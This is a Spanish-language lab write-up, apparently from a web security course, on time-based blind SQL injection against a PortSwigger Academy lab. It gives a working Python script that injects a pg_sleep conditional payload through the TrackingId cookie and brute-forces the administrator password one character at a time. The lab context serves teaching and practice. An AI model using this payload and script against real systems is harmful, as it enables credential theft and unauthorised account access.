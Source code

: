 En esta clase damos continuidad al proceso de explotación visto anteriormente, en el que empleamos una inyección SQL ciega con retardos temporales (**pg_sleep**) para filtrar información sensible sin respuestas visibles del servidor.

Partimos desde el punto en el que ya conocemos la longitud de la contraseña del usuario ‘**administrator**‘. Ahora nos centramos en automatizar por completo la recuperación del valor de cada carácter que la compone, utilizando Burp Intruder para iterar de forma sistemática por todas las posiciones y valores posibles (letras minúsculas y números).

Se configura un ataque por cada posición de la contraseña, adaptando la consulta con ‘**SUBSTRING(password, n, 1)**‘ y analizando el retardo en la respuesta para identificar el carácter correcto. Cada vez que se produce una demora significativa (≈10 segundos), se confirma que el carácter probado es el correcto.

Repetimos el proceso hasta reconstruir completamente la contraseña, cerrando el ejercicio con el acceso exitoso a la cuenta del administrador.

Script
![Pasted_image_20250704124641.png](/Imagenes/Pasted_image_20250704124641.png)
![Pasted_image_20250704125451.png](/Imagenes/Pasted_image_20250704125451.png)
Script

#!/usr/bin/env python3 
from pwn import *
from termcolor import colored

import requests
import signal
import sys
import string

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] Saliendo...\n", 'red')) 
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():

    password = ""

    p1.status("Iniciando ataque de fuerza bruta") 
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"test'%3b select case when(username='administrator' and substring(password, {position},1)='{character}') then pg_sleep(3) else pg_sleep(0) end from users-- -",
                'session': "0Vj8dxoJmIzQF8MyDtjXuHORoz7NTXNZ"
            }

            p1.status(cookies["TrackingId"])

            time_start = time.time()

            r = requests.get("https://0a3e00d004218e53801a35c3000300be.web-security-academy.net", cookies=cookies)
            
            time_end = time.time()

            if time_end - time_start > 3:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeSQLI()

![Pasted_image_20250704131955.png](/Imagenes/Pasted_image_20250704131955.png)
En mysql
![Pasted_image_20250704132254.png](/Imagenes/Pasted_image_20250704132254.png)
